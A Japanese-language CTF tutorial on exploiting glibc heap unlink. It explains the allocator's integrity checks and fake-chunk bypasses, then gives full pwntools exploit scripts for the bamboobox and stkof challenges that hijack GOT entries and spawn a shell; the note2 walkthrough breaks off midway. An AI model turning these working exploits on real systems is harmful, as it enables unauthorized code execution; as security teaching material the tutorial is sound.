



# Unlink

## 原理

unlink が引き起こす脆弱性を悪用するとき、実際には chunk のメモリレイアウトを組み立て、unlink の操作を利用してポインタを書き換える効果を得ます。

まず unlink の目的と流れを簡単におさらいします。その目的は、双方向リストの中から空きチャンクを取り出すことです(たとえば free のとき、物理的に隣接する free chunk と統合する場合など)。基本的な流れは次のとおりです。



ここではまず、unlink に防御がなかった当初の攻撃方法を説明し、次に現在の unlink の攻撃方法を説明します。

### 古い unlink

unlink が最初に実装された当時は、チャンクの size の検査や双方向リストの検査は実はなく、次のような検査コードはありませんでした。

```c
// P はすでに双方向リストに入っているので、サイズが 2 か所に記録されている。そのためサイズが一致するかを検査する(size チェック)
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");			      \
// fd と bk のポインタを検査する(双方向リストの整合性チェック)
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \

  // largebin の next_size の双方向リストの整合性チェック
              if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)              \
                || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
              malloc_printerr (check_action,                                      \
                               "corrupted double-linked list (not small)",    \
                               P, AV);
```
**ここでは 32 ビットを例にします。**ヒープメモリの最初のレイアウトが次のようになっているとします。



いま、物理的に連続した 2 つのチャンク(Q、Nextchunk)があり、Q は使用中、Nextchunk は解放済みの状態だとします。何らかの方法(**たとえばオーバーフロー**)で Nextchunk の fd と bk のポインタを指定した値に書き換えたとします。すると free(Q) を行ったとき、次のようになります。

- glibc はこのブロックが small chunk だと判断する
- 前方への統合を判断し、前のチャンクが使用中なので、前方統合は不要と判断する
- 後方への統合を判断し、後ろのチャンクが空きなので、統合が必要と判断する
- 続いて Nextchunk に対して unlink の操作を行う

では unlink は具体的にどのような効果をもたらすのでしょうか。分析してみましょう。

- FD=P->fd = target addr -12
- BK=P->bk = expect value
- FD->bk = BK、つまり *(target addr-12+12)=BK=expect value
- BK->fd = FD、つまり *(expect value +8) = FD = target addr-12

**一見すると unlink で任意アドレスの読み書きが直接実現できそうですが、expect value +8 のアドレスが書き込み可能であることを確認する必要があります。**

たとえば target addr をある got のエントリに設定すると、プログラムが対応する libc 関数を呼び出したとき、設定した値(expect value)の位置にあるコードがそのまま実行されます。**expect value+8 の位置の値は破壊されるため、何とかして回避する必要があることに注意してください。**

### 現在の unlink

**しかし、現実は厳しいものです。**先ほどは検査がない場合を考えましたが、検査が加わるとそう簡単ではありません。fd と bk に対する検査を見てみましょう。

```c
// fd bk
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
```

このとき

- FD->bk = target addr - 12 + 12=target_addr
- BK->fd = expect value + 8

となり、先ほどの GOT のエントリを書き換える方法は使えなくなる可能性があります。しかし、偽造によってこの仕組みを回避できます。

まず、上書きによって nextchunk の FD ポインタを fakeFD に、nextchunk の BK ポインタを fakeBK に向けます。このとき検証を通すには次が必要です。

- `fakeFD -> bk == P`  <=>  `*(fakeFD + 12) == P`
- `fakeBK -> fd == P`  <=>  `*(fakeBK + 8) == P`

上の 2 つの式を満たすと Unlink の処理に進み、次の操作が行われます。

- `fakeFD -> bk = fakeBK`  <=>  `*(fakeFD + 12) = fakeBK`
- `fakeBK -> fd = fakeFD`  <=>  `*(fakeBK + 8) = fakeFD`

fakeFD + 12 と fakeBK + 8 が、P を指す同じポインタを指すようにすると、次のようになります。

- `*P = P - 8`
- `*P = P - 12`

つまりこの方法により、P のポインタは自分より 12 低いアドレスを指すようになります。この方法では任意アドレス書き込みはできませんが、チャンクを指すポインタを書き換えられ、そのような書き換えでも一定の効果が得られます。

両方が P を指すようにしたい場合は、次のように書き換えるだけです。



ここで、次の制約には違反していないことに注意してください。Unlink の前の P は正しいチャンクを指すポインタだからです。

```c
    // P はすでに双方向リストに入っているので、サイズが 2 か所に記録されている。そのためサイズが一致するかを検査する。
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");			      \
```

**また、next chunk の fd と bk をどちらも nextchunk 自身のアドレスに設定しても、上の検査を回避できます。ただしその場合、ポインタの内容を書き換える効果は得られません。**

なお、比較的新しい glibc では、`unlink_chunk` が large bins を対象とするとき、2 つの `*_nextsize` ポインタに対する検査があることに注意してください。

```c
if (!in_smallbin_range (chunksize_nomask (p)) && p->fd_nextsize != NULL)
  {
    if (p->fd_nextsize->bk_nextsize != p
        || p->bk_nextsize->fd_nextsize != p)
      malloc_printerr ("corrupted double-linked list (not small)");
    ...
  }
```

つまり、**偽造したチャンクが large bin の範囲内にある**場合は、リストの整合性チェックを回避するために **`bk_next_size` を NULL に設定**する必要があります。

## 攻撃の考え方

### 条件

1. UAF を起こせるチャンクがあること。解放状態の smallbin、large bin、または unsorted bin の fd と bk のポインタを書き換えられること
2. 既知の位置に、UAF を起こせるチャンクを指すポインタが存在すること

### 効果
 
ptr の位置にある、本来 UAF チャンクを指していたポインタが ptr - 0x18 になります。

### 手順

UAF を起こせるチャンクを指すポインタのアドレスを ptr とします。

1. fd を ptr - 0x18 に書き換える
2. bk を ptr - 0x10 に書き換える
3. unlink を発動させる

ptr の位置のポインタは ptr - 0x18 になります。

## HITCON Training Lab11: bamboobox
[問題へのリンク](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/unlink/bamboofox)

### 基本情報
```shell
# zer0ptr @ zer0ptr-MateBook-D14 in ~/HITCON-Training/LAB/lab11 on git:master x [13:31:17]
$ file bamboobox
bamboobox: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=595428ebf89c9bf7b914dd1d2501af50d47bbbe1, not stripped

# zer0ptr @ zer0ptr-MateBook-D14 in ~/HITCON-Training/LAB/lab11 on git:master x [13:31:19]
$ checksec bamboobox
Arch:      amd64
RELRO:     Partial RELRO
Stack:     Canary found
NX:        NX enabled
PIE:       No PIE
Stripped:  No
```
4 つの関数があり、それぞれ `show()`、`add()`、`change()`、`free()` に対応します。

### ヒープレイアウト

#### チャンクの確保
```python
additem(0x40, b"a"*8)   # chunk0 - fake chunk を入れる容器
additem(0x80, b"b"*8)   # chunk1 - free して unlink を発動させる
additem(0x40, b"c"*8)   # chunk2 - 隔離用。top chunk への統合を防ぐ
```
このときのメモリレイアウトは次のとおりです。
```text
低地址                                   高地址
[chunk0: 0x50] [chunk1: 0x90] [chunk2: 0x50] [top chunk]
```

#### fake chunk の構築
```python
ptr = 0x6020c8  # chunk0 のポインタの格納位置

fake_chunk = p64(0)                    # fake chunk の prev_size
fake_chunk += p64(0x41)                # fake chunk の size (0x40 + 1)
fake_chunk += p64(ptr - 0x18)          # fd は &global[2]-0x18 を指す
fake_chunk += p64(ptr - 0x10)          # bk は &global[2]-0x10 を指す
fake_chunk += b"c" * 0x20              # chunk0 のデータ領域の末尾まで埋める
fake_chunk += p64(0x40)                # chunk1.prev_size = 0x40 を上書き
fake_chunk += p64(0x90)                # chunk1.size を上書きし、PREV_INUSE ビットを落とす
```

#### unlink
```python
change(0, 0x80, fake_chunk)   # chunk0 を編集し、chunk1 のヘッダを上書きする
remove(1)                      # chunk1 を free して unlink を発動させる
```
これで `unlink fake_chunk` が実行され、global[2] のポインタが &global[2]-0x18 (0x6020b0) に書き換えられます。

#### leak
```python
atoi_got = elf.got['atoi']
payload = p64(0) * 2 + p64(0x40) + p64(atoi_got)
change(0, 0x80, payload)
show()                                  
r.recvuntil(b"0 : ")                     
leak_data = r.recvuntil(b":")[:6]       
atoi_addr = u64(leak_data.ljust(8, b"\x00"))  
libc = LibcSearcher('atoi', atoi_addr)   
libc_base = atoi_addr - libc.dump('atoi')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
```

#### getshell
```python
change(0, 0x8, p64(system_addr)) 
r.recvuntil(b":")
r.sendline(b"/bin/sh\x00")       
r.interactive()                   
```

完全な exp は次のとおりです。
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import LibcSearcher

context.log_level = 'debug'
context(arch='amd64', os='linux')

r = process('./bamboobox')
elf = ELF('./bamboobox') 

def additem(length, name):
    r.recvuntil(b":")
    r.sendline(b"2")
    r.recvuntil(b":")
    r.sendline(str(length).encode())
    r.recvuntil(b":")
    r.send(name)

def change(idx, length, name):
    r.recvuntil(b":")
    r.sendline(b"3")
    r.recvuntil(b":")
    r.sendline(str(idx).encode())
    r.recvuntil(b":")
    r.sendline(str(length).encode())
    r.recvuntil(b":")
    r.send(name)

def remove(idx):
    r.recvuntil(b":")
    r.sendline(b"4")
    r.recvuntil(b":")
    r.sendline(str(idx).encode())

def show():
    r.recvuntil(b":")
    r.sendline(b"1")

# ========== Step 1: チャンクの確保 ==========
print("[*] Step 1: Allocating chunks...")
additem(0x40, b"a"*8)   # chunk 0
additem(0x80, b"b"*8)   # chunk 1
additem(0x40, b"c"*8)   # chunk 2

# ========== Step 2: fake chunk の構築 ==========
print("[*] Step 2: Constructing fake chunk...")
ptr = 0x6020c8  # chunk0 のポインタの格納位置

# fake chunk を構築する
fake_chunk = p64(0)                    # prev_size
fake_chunk += p64(0x41)                # size (0x40 + 0x1, PREV_INUSE=1)
fake_chunk += p64(ptr - 0x18)          # fd
fake_chunk += p64(ptr - 0x10)          # bk
fake_chunk += b"c" * 0x20              # chunk0 のデータ領域の末尾まで埋める
fake_chunk += p64(0x40)                # chunk1 の prev_size を上書き
fake_chunk += p64(0x90)                # chunk1 の size を上書き (PREV_INUSE ビットを落とす)

print("[*] Step 3: Triggering overflow and unlink...")
change(0, 0x80, fake_chunk)
remove(1)  # unlink を発動させる

# ========== Step 3: unlink 後の任意アドレス書き込みを利用 ==========
print("[*] Step 4: Exploiting arbitrary write...")

# このとき chunk0 のポインタは ptr-24 (0x6020b0) を指す
# payload を構築し、chunk0 のポインタを atoi の GOT を指すように変更する
atoi_got = elf.got['atoi']
payload = p64(0) * 2 + p64(0x40) + p64(atoi_got)
change(0, 0x80, payload)

# ========== Step 4: atoi のアドレスをリーク ==========
print("[*] Step 5: Leaking atoi address...")
show()

# リークしたアドレスを受信する
r.recvuntil(b"0 : ")
leak_data = r.recvuntil(b":")[:6]  # 6 バイトを受信
atoi_addr = u64(leak_data.ljust(8, b"\x00"))
print(f"[+] Leaked atoi address: {hex(atoi_addr)}")

# ========== Step 5: LibcSearcher で libc のバージョンを特定 ==========
print("[*] Step 6: Searching libc version...")
libc = LibcSearcher('atoi', atoi_addr)

# libc のベースアドレスを取得
libc_base = atoi_addr - libc.dump('atoi')
print(f"[+] libc base: {hex(libc_base)}")

# system のアドレスを取得
system_addr = libc_base + libc.dump('system')
print(f"[+] system address: {hex(system_addr)}")

# /bin/sh のアドレスを取得
binsh_addr = libc_base + libc.dump('str_bin_sh')
print(f"[+] /bin/sh address: {hex(binsh_addr)}")

# 任意: one_gadget を取得 (libc-2.23 の一般的なオフセット)
one_gadgets = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
for og in one_gadgets:
    print(f"[+] possible one_gadget: {hex(libc_base + og)}")

# ========== Step 6: 制御フローのハイジャック ==========
print("[*] Step 7: Hijacking control flow...")

# atoi の GOT を system に書き換える
change(0, 0x8, p64(system_addr))

# system('/bin/sh') を発動させる
r.recvuntil(b":")
r.sendline(b"/bin/sh\x00")
r.interactive()
```

## 2014 HITCON stkof

[問題へのリンク](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/unlink/2014_hitcon_stkof)

### 基本情報

```shell
➜  2014_hitcon_stkof git:(master) file stkof
stkof: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4872b087443d1e52ce720d0a4007b1920f18e7b0, stripped
➜  2014_hitcon_stkof git:(master) checksec stkof
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/unlink/2014_hitcon_stkof/stkof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

プログラムは 64 ビットで、主に Canary と NX が有効になっています。

### 基本機能

プログラムには 4 つの機能があり、IDA で解析すると次のとおりです。

- alloc: size を入力し、size 大のメモリを確保して、対応するチャンクのポインタを bss セグメントに記録します(これを global とします)
- read_in: 指定したインデックスに従い、確保したメモリにデータを読み込みます。データ長は制御可能で、**ここにヒープオーバーフローがあります**
- free: 指定したインデックスに従い、確保済みのメモリブロックを解放します
- useless: この機能は役に立ちません。内容を出力できるのかと思いましたが、何も出力されませんでした

### IO バッファの問題の分析

注目すべきことに、プログラム自体が setbuf の操作を行っていないため、入出力を実行するときにバッファが確保されます。テストした結果、2 つのバッファが確保され、サイズはそれぞれ 1024 と 1024 です。具体的には次のとおりで、デバッグして確認できます。

最初に fgets を呼び出すとき、malloc は 1024 サイズのバッファを確保します。

```
*RAX  0x0
*RBX  0x400
*RCX  0x7ffff7b03c34 (__fxstat64+20) ◂— cmp    rax, -0x1000 /* 'H=' */
*RDX  0x88
*RDI  0x400
*RSI  0x7fffffffd860 ◂— 0x16
*R8   0x1
*R9   0x0
*R10  0x7ffff7fd2700 ◂— 0x7ffff7fd2700
*R11  0x246
*R12  0xa
*R13  0x9
 R14  0x0
*R15  0x7ffff7dd18e0 (_IO_2_1_stdin_) ◂— 0xfbad2288
*RBP  0x7ffff7dd18e0 (_IO_2_1_stdin_) ◂— 0xfbad2288
*RSP  0x7fffffffd858 —▸ 0x7ffff7a7a1d5 (_IO_file_doallocate+85) ◂— mov    rsi, rax
*RIP  0x7ffff7a91130 (malloc) ◂— push   rbp
─────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────
 ► 0x7ffff7a91130 <malloc>        push   rbp <0x7ffff7dd18e0>
...，省略
 ► f 0     7ffff7a91130 malloc
   f 1     7ffff7a7a1d5 _IO_file_doallocate+85
   f 2     7ffff7a88594 _IO_doallocbuf+52
   f 3     7ffff7a8769c _IO_file_underflow+508
   f 4     7ffff7a8860e _IO_default_uflow+14
   f 5     7ffff7a7bc6a _IO_getline_info+170
   f 6     7ffff7a7bd78
   f 7     7ffff7a7ab7d fgets+173
   f 8           400d2e
   f 9     7ffff7a2d830 __libc_start_main+240
```

確保した後のヒープは次のとおりです。

```
pwndbg> heap
Top Chunk: 0xe05410
Last Remainder: 0

0xe05000 PREV_INUSE {
  prev_size = 0,
  size = 1041,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0xe05410 PREV_INUSE {
  prev_size = 0,
  size = 134129,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
```

サイズ 16 のメモリを確保した後のヒープレイアウトは次のとおりです。

```
pwndbg> heap
Top Chunk: 0xe05430
Last Remainder: 0

0xe05000 PREV_INUSE {
  prev_size = 0,
  size = 1041,
  fd = 0xa3631,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0xe05410 FASTBIN {
  prev_size = 0,
  size = 33,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x20bd1
}
0xe05430 PREV_INUSE {
  prev_size = 0,
  size = 134097,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
```

printf 関数を使うと、次のように 1024 バイトの領域が確保されます。

```
*RAX  0x0
*RBX  0x400
*RCX  0x7ffff7b03c34 (__fxstat64+20) ◂— cmp    rax, -0x1000 /* 'H=' */
*RDX  0x88
*RDI  0x400
*RSI  0x7fffffffd1c0 ◂— 0x16
 R8   0x0
*R9   0x0
*R10  0x0
*R11  0x246
*R12  0x1
*R13  0x7fffffffd827 ◂— 0x31 /* '1' */
 R14  0x0
*R15  0x400de4 ◂— and    eax, 0x2e000a64 /* '%d\n' */
*RBP  0x7ffff7dd2620 (_IO_2_1_stdout_) ◂— 0xfbad2284
*RSP  0x7fffffffd1b8 —▸ 0x7ffff7a7a1d5 (_IO_file_doallocate+85) ◂— mov    rsi, rax
*RIP  0x7ffff7a91130 (malloc) ◂— push   rbp
─────────────────────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────────────────────
 ► 0x7ffff7a91130 <malloc>       push   rbp <0x7ffff7dd2620>
。。。省略
► f 0     7ffff7a91130 malloc
   f 1     7ffff7a7a1d5 _IO_file_doallocate+85
   f 2     7ffff7a88594 _IO_doallocbuf+52
   f 3     7ffff7a878f8 _IO_file_overflow+456
   f 4     7ffff7a8628d _IO_file_xsputn+173
   f 5     7ffff7a5ae00 vfprintf+3216
   f 6     7ffff7a62899 printf+153
   f 7           4009cd
   f 8           400cb1
   f 9     7ffff7a2d830 __libc_start_main+240

```

ヒープレイアウトは次のとおりです。

```
pwndbg> heap
Top Chunk: 0xe05840
Last Remainder: 0

0xe05000 PREV_INUSE {
  prev_size = 0,
  size = 1041,
  fd = 0xa3631,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0xe05410 FASTBIN {
  prev_size = 0,
  size = 33,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x411
}
0xe05430 PREV_INUSE {
  prev_size = 0,
  size = 1041,
  fd = 0xa4b4f,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0xe05840 PREV_INUSE {
  prev_size = 0,
  size = 133057,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
```

これ以降は、入力でも出力でもバッファは確保されません。そのため、最初にチャンクを 1 つ確保してこれらのバッファを先に確保させておくと、その後の操作が楽になります。

ただし興味深いことに、attach した場合は、最初のバッファの確保サイズは 4096 になります。

```
pwndbg> heap
Top Chunk: 0x1e9b010
Last Remainder: 0

0x1e9a000 PREV_INUSE {
  prev_size = 0,
  size = 4113,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0x1e9b010 PREV_INUSE {
  prev_size = 0,
  size = 135153,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}

```

### 基本的な方針

以上の分析から、最初にチャンクを 1 つ確保してバッファの確保を済ませ、その後の操作に影響しないようにします。

プログラム自体に leak がないため、system などの関数を実行するには、まず leak を作ることが第一の目的になります。基本的な方針は次のとおりです。

- unlink を利用して global[2] を &global[2]-0x18 に書き換える。
- 編集機能を利用して global[0] を free@got のアドレスに、global[1] を puts@got のアドレスに、global[2] を atoi@got のアドレスに書き換える。
- `free@got` を `puts@plt` のアドレスに書き換える。これにより、再び `free` 関数を呼び出すと puts 関数が直接呼び出され、関数の内容をリークできる。
- global[1] を free する。つまり puts@got の内容をリークし、それによって system 関数のアドレスと libc 内の /bin/sh のアドレスがわかる。
- `atoi@got` を system 関数のアドレスに書き換え、再び呼び出すときに /bin/sh のアドレスを入力すればよい。

コードは次のとおりです。

```python
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./stkof"
stkof = ELF('./stkof')
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./stkof")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')
head = 0x602140


def alloc(size):
    p.sendline('1')
    p.sendline(str(size))
    p.recvuntil('OK\n')


def edit(idx, size, content):
    p.sendline('2')
    p.sendline(str(idx))
    p.sendline(str(size))
    p.send(content)
    p.recvuntil('OK\n')


def free(idx):
    p.sendline('3')
    p.sendline(str(idx))


def exp():
    # trigger to malloc buffer for io function
    alloc(0x100)  # idx 1
    # begin
    alloc(0x30)  # idx 2
    # small chunk size in order to trigger unlink
    alloc(0x80)  # idx 3
    # a fake chunk at global[2]=head+16 who's size is 0x20
    payload = p64(0)  #prev_size
    payload += p64(0x20)  #size
    payload += p64(head + 16 - 0x18)  #fd
    payload += p64(head + 16 - 0x10)  #bk
    payload += p64(0x20)  # next chunk's prev_size bypass the check
    payload = payload.ljust(0x30, 'a')

    # overwrite global[3]'s chunk's prev_size
    # make it believe that prev chunk is at global[2]
    payload += p64(0x30)

    # make it believe that prev chunk is free
    payload += p64(0x90)
    edit(2, len(payload), payload)

    # unlink fake chunk, so global[2] =&(global[2])-0x18=head-8
    free(3)
    p.recvuntil('OK\n')

    # overwrite global[0] = free@got, global[1]=puts@got, global[2]=atoi@got
    payload = 'a' * 8 + p64(stkof.got['free']) + p64(stkof.got['puts']) + p64(
        stkof.got['atoi'])
    edit(2, len(payload), payload)

    # edit free@got to puts@plt
    payload = p64(stkof.plt['puts'])
    edit(0, len(payload), payload)

    # free global[1] to leak puts addr
    free(1)
    puts_addr = p.recvuntil('\nOK\n', drop=True).ljust(8, '\x00')
    puts_addr = u64(puts_addr)
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))
    system_addr = libc_base + libc.symbols['system']
    log.success('libc base: ' + hex(libc_base))
    log.success('/bin/sh addr: ' + hex(binsh_addr))
    log.success('system addr: ' + hex(system_addr))

    # modify atoi@got to system addr
    payload = p64(system_addr)
    edit(2, len(payload), payload)
    p.send(p64(binsh_addr))
    p.interactive()


if __name__ == "__main__":
    exp()
```

## 2016 ZCTF note2
[問題へのリンク](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/unlink/2016_zctf_note2)

### プログラムの分析

まずプログラムを分析します。プログラムの主な機能は次のとおりです。

- note の追加。size の上限は 0x80 で、size が記録され、note のポインタも記録されます。
- note の内容の表示。
- note の内容の編集。既存の note の上書きと、既存の note の後ろへの追記があります。
- note の解放。

詳しく分析すると、プログラムには次のような問題があることがわかります。

1. note を追加するとき、プログラムは note に対応するサイズを記録し、そのサイズが note の内容を読み込む量の制御に使われます。しかし読み込みのループ変数 i は符号なし変数なので、比較時にはすべて符号なしに変換されます。size に 0 を入力すると、glibc の規定により 0x20 バイトが確保されますが、プログラムが読み込む内容には制限がないため、ヒープオーバーフローが発生します。
2. プログラムは note を編集するたびに 0xa0 サイズのメモリを確保しますが、free の後に NULL を設定していません。

1 つ目の問題に対応する IDA 上のコードは次のとおりです。

```c
unsigned __int64 __fastcall ReadLenChar(__int64 a1, __int64 a2, char a3)
{
  char v4; // [sp+Ch] [bp-34h]@1
  char buf; // [sp+2Fh] [bp-11h]@2
  unsigned __int64 i; // [sp+30h] [bp-10h]@1
  __int64 v7; // [sp+38h] [bp-8h]@2

  v4 = a3;
  for ( i = 0LL; a2 - 1 > i; ++i )
  {
    v7 = read(0, &buf, 1uLL);
    if ( v7 <= 0 )
      exit(-1);
    if ( buf == v4 )
      break;
    *(_BYTE *)(i + a1) = buf;
  }
  *(_BYTE *)(a1 + i) = 0;
  return i;
}
```

ここで i は unsigned 型、a2 は int 型なので、両者を for ループで比較するとき、a2-1 の結果である -1 は unsigned 型として扱われ、最大の整数になります。したがって任意の長さのデータを読み込めます。これが後でオーバーフローに使う方法です。

### 基本的な方針

ここでは主に最初に見つけた問題を利用し、fastbin の仕組みと unlink の仕組みを使います。

以下、順に説明します。

#### 基本操作

まず、note に対して可能な基本操作を挙げておきます。

```python
p = process('./note2')
note2 = ELF('./note2')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.log_level = 'debug'


def newnote(length, content):
    p.recvuntil('option--->>')
    p.sendline('1')
    p.recvuntil('(less than 128)')
    p.sendline(str(length))
    p.recvuntil('content:')
    p.sendline(content)


def shownote(id):
    p.recvuntil('option--->>')
    p.sendline('2')
    p.recvuntil('note:')
    p.sendline(str(id))


def editnote(id, choice, s):
    p.recvuntil('option--->>')
    p.sendline('3')
    p.recvuntil('note:')
    p.sendline(str(id))
    p.recvuntil('2.append]')
    p.sendline(str(choice))
    p.sendline(s)


def deletenote(id):
    p.recvuntil('option--->>')
    p.sendline('4')
    p.recvuntil('note:')
    p.sendline(str(id))
```

#### 3 つの note の生成

3 つのチャンク、chunk0、chunk1、chunk2 を構築します。

```python
# chunk0: a fake chunk
ptr = 0x0000000000602120
fakefd = ptr - 0x18
fakebk = ptr - 0x10
content = 'a' * 8 + p64(0x61) + p64(fakefd) + p64(fakebk) + 'b' * 64 + p64(0x60)
#content = p64(fakefd) + p64(fakebk)
newnote(128, content)
# chunk1: a zero size chunk produce overwrite
newnote(0, 'a' * 8)
# chunk2: a chunk to be overwrited and freed
newnote(0x80, 'b' * 16)
```

この 3 つのチャンクを確保するときのサイズはそれぞれ 0x80、0、0x80 です。chunk1 は確保サイズが 0 ですが、glibc ではチャンクブロックが少なくとも 4 つの必須フィールド(prev\_size、size、fd、bk)を格納できる必要があるため、0x20 の領域が確保されます。また、符号なし整数の比較の問題により、この note には任意の長さの文字列を入力できます。

